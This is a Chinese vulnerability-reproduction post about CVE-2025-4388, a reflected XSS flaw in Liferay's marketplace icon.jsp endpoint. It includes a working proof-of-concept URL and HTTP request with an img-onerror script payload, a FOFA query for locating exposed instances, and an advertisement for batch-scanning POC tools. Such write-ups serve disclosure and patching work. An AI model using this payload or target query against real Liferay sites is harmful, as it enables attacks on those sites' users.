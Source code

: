 #  Liferay icon.jsp接口存在跨站漏洞CVE-2025-4388 附POC   
2025-6-5更新  南风漏洞复现文库   2025-06-05 15:16  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Liferay简介  
  
微信公众号搜索：南风漏洞复现文库  
  
该文章 南风漏洞复现文库 公众号首发  
  
Liferay  
## 2.漏洞描述  
  
攻击者可以通过注入恶意的 JavaScript 代码到 modules/apps/marketplace/marketplace-app-manager-web  
 中来利用此漏洞。此漏洞属于反射型 XSS，意味着攻击者需要诱使用户点击特定的链接或进行某些操作来触发漏洞。Liferay Portal 7.4.0 至 7.4.3.131 以及 Liferay DXP 2024.Q4.0 至 2024.Q4.5、2024.Q3.1 至 2024.Q3.13、2024.Q2.0 至 2024.Q2.13、2024.Q1.1 至 2024.Q1.12 和 7.4 GA 至更新 92 中存在的反射型跨站脚本 (XSS) 漏洞，允许远程非认证攻击者注入 JavaScript 到 modules/apps/marketplace/marketplace-app-manager-web  
 中。  
  
CVE编号:CVE-2025-4388  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
- • Liferay Portal: 7.4.0 至 7.4.3.131 - Liferay DXP: - 2024.Q4.0 至 2024.Q4.5 - 2024.Q3.1 至 2024.Q3.13 - 2024.Q2.0 至 2024.Q2.13 - 2024.Q1.1 至 2024.Q1.12 - 7.4 GA 至 92  
  
![Liferay o/marketplace-app-manager-web/icon.jsp接口存在跨站漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0Lwf4zWicPKe11NBW0Rn1VQT21AYBRqelF6SEqK1QW33CurqqWIQS5G8Q/640?wx_fmt=png&from=appmsg "null")  
  
Liferay o/marketplace-app-manager-web/icon.jsp接口存在跨站漏洞  
  
## 4.fofa查询语句  
  
body="liferayPortalCSS"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/o/marketplace-app-manager-web/icon.jsp?iconURL=https:///%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E  
  
漏洞数据包：  
```
GET /o/marketplace-app-manager-web/icon.jsp?iconURL=https:///%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0L7fCefcStSg7SmZbjjEIhgap1y9ib2zsc9WeibwYTr3icgB3Fg8KfuAaoQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
  
2: 免登录，免费fofa查询。  
  
  
3: 更新其他实用网络安全工具项目。  
  
  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0LyyUb4JHyNQ0RBgTJpXczlh6GXiavVgBmuggR9dkOuozBhBKzwqFXtfA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0LtibnZBAj6qvFDkZJUMsCXB3GRlzBibreXNT9ROkMVovD6knOujHYeFWw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0LXgNZEAibQXtsd9fgm4nEUianVVL8bhwlJtLhO9Ej4rfGKeYIicDjIv5YQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0LYA23mzsicBcwD1iaoq53PVKIMlebTlOJsia7ZFfoejgmbKXicOu7hHhiaLw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0LS2HDprNlnTaVUvvDpJEfZbZvHOxPybLuSqynvduJtJgt5svtcJyQdw/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
## 8.往期回顾  
  
  
   
  
  
  
